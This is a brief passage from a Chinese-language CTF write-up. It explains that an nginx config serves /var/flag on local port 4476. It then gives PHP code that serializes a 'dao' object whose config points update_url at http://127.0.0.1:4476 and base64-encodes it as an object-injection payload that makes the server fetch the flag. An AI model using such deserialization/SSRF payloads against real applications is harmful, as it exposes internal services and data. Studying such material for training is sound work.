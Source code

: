 在nginx配置文件中，我们发现，配置了端口为 4476 的http服务，并且该服务的根目录为：`/var/flag`

因此，我们可以直接构造一个http请求，去请求本机的4476端口：

```php
<?php

class dao
{
    private $config;
    public function __construct() {
        $this->config = new config();
    }
}
class config
{
    public $update_url = 'http://127.0.0.1:4476';
}


$d = new dao();
echo base64_encode(serialize($d));


```

传参得flag

